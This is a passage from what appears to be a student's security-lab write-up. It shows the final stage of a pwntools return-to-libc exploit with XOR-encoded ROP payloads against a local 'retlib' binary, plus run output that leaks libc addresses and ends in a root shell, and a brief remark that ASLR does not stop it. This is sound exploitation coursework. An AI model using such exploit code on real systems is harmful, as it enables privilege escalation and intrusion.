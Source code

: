 ```python
    rop4 += p32(writable_addr)

    # Create and encode the payload for stage 4
    payload4 = "A"*24 + rop4
    payload4 = payload4.ljust(52, "\x90")
    payload4 = xor(payload4, 0xbe)

    # Launch the fourth stage of the attack
    comm.write(payload4)
    log.info("Stage 4 sent!")

    log.success("Enjoy your shell.")
    p.interactive()

if __name__ == "__main__":
    main()
```

Running the exploit:

```shell
$ python /vagrant/assignment1/task2-exploit.py
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process '/home/vagrant/retlib': pid 11111
[*] Stage 1 sent!
[*] puts@libc: 0xb76217e0
[*] libc base: 0xb75bc000
[*] system@libc: 0xb75fc310
[*] setuid@libc: 0xb76751a0
[*] exit@libc: 0xb75ef260
[*] read@libc: 0xb76993c0
[*] writable address in libc: 0xb7769050
[*] Stage 2 sent!
[*] Stage 3 sent!
[*] "/bin/bash": 0xb7769050
[*] Stage 4 sent!
[+] Enjoy your shell.
[*] Switching to interactive mode
$ id
uid=0(root) gid=1000(vagrant) groups=0(root),1000(vagrant)
$
```

# Task 3

## Address Space Layout Randomisation

Since the exploit works by leaking libc address from the Global Offset Table,
Address Space Layout Randomisation does not mitigate it. Thus, running the
exploit in task 1 results in a successful shell.
